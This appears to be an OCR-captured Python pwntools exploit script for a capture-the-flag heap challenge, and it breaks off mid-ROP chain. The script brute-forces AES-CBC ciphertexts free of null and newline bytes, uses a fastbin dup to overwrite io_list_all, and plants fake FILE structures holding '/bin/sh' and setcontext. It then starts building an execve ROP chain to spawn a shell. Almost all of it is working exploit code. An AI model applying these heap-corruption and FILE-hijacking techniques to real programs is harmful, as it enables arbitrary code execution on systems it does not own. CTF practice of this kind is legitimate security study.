 ```python
remove(4)

# 1. text in chunk made with "conceal" is encrypted. 
# 2. this text is copy from stack to heap in "conceal" using strlen. 
# 3. "\x00" or "\x0a" will terminate our payload. so we have to search good ct this time.
# 4. we can't fill all aligned 16byte with fixed value because if there is one prohibited char in ct, it's over. this time, we can't use alternative iv.
#    example:
#       a. pt: p64(0xdeadbeef)+os.urandom(8) -> will find proper ct
#       b. pt: p64(0xdeadbeef)+p64(0xc0bebeef) -> can't search anymore
#       c. pt: p64(0xdeadbeef)+os.urandom(16)+p64(0xc0bebeef) -> will find proper ct
def search_ct(pt, iv, key):
    assert len(pt) % 0x10 == 0
    log.info("searching")
    ct = '\x00'
    while '\x00' in ct or '\x0a' in ct:
        payload = ''
        for i in range(0, len(pt), 8):
            if u64(pt[i:i+8]) == 0xdeadbeef:
                payload += os.urandom(8)
            else:   
                payload += pt[i:i+8]
        cipher = AES.new(key, AES.MODE_CBC, iv)
        ct = cipher.decrypt(payload) 
    log.info("done")
    return ct

# use fastbindup 
pt = flat(io_list_all-0x28+5, 0xdeadbeef)
ct = search_ct(pt, iv, key)
conceal(5, 0x50, ct)

# fake io struct 1
pt = p64(0xdeadbeef)*2
pt += '/bin/sh\x00'
pt += p64(0xdeadbeef)*2
pt += p64(setcontext)
pt += p64(0xdeadbeef)*2
ct = search_ct(pt, iv, key)
conceal(6, 0x50, ct)

# fake io struct 2
pt = flat(0xdeadbeef, heap+0x24c0)
pt += p64(0xdeadbeef)*6
pt += flat(heap+0x25a0, rdi+1)
ct = search_ct(pt, iv, key)
conceal(7, 0x50, ct)

# overwrite io_list_all to heap
pt = p64(heap+0x24c0)
log.info("searching")
ct = '\x00'
while '\x00' in ct or '\x0a' in ct:
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct = cipher.decrypt(os.urandom(0x13)+pt+os.urandom(0x5)) 
log.info("done")
conceal(8, 0x50, ct)

# build rop in 0x80 sized chunk
# (this is hard part because we can't search..)
log.info("hard part here. may be need reset....")
pt = flat(rdi, heap+0x24c0, rsi, 0, rdx, 0)
pt += flat(rax, 0x3b, syscall, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef)
```